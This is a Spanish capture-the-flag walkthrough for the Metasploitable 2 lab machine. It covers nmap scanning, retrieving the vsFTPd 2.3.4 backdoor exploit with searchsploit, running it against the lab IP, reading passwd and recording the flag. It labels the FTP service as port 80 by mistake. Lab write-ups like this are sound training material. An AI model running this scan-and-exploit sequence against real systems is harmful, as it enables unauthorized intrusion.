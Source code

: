 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F70000&width=500&height=70&lines=Metasploitable_2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/metasploitable-2,29/

Sourceforge: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Metasploitable-2-13?lang=en

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172515652-41a49316-c195-462f-a88b-bfba74051bf2.png)

Puertos abiertos: [21,22,23,25,53,80,110,139,445,3306,5900]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,23,25,53,80,110,139,445,3306,5900 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172518304-45323ab6-0e48-425d-9bf4-5e3689b86200.png)

Objetivo: Puerto 80 -> Servicio FTP -> Versión -> vsFTPd 2.3.4

- *Paso 3:* Identificación de exploit y descarga. 
```
searchsploit vsFTPd 2.3.4
```
![3](https://user-images.githubusercontent.com/75953873/172518879-12b95d54-5dac-4f0d-918e-96860c1c5eed.png)

`Dato:` cada exploit está enumerado y es irrepetible.

Exploit: 49757

Descargar exploit:
```
searchsploit -m 49757
```
![4](https://user-images.githubusercontent.com/75953873/172519207-132d9579-e008-4980-941a-44925d69d383.png)

- *Paso 5:* Obtener acceso. 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![5](https://user-images.githubusercontent.com/75953873/172519517-52e00c2d-277e-43d7-838e-796e99e2ed34.png)

IP: 212.129.29.186

Ejecución del exploit:
```
python3 49757.py 212.129.29.186
```
![6](https://user-images.githubusercontent.com/75953873/172519805-0a9e2b66-d85c-4b2a-a5d8-8801fea887c1.png)

Localizar fichero `passwd` y validar flag:
```
cat passwd
```
![7](https://user-images.githubusercontent.com/75953873/172520170-d1cc17c5-5124-4c2f-ba76-10835fc58344.png)

Key: bb43e7cf2385d2c38fd5a232b435e59d

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
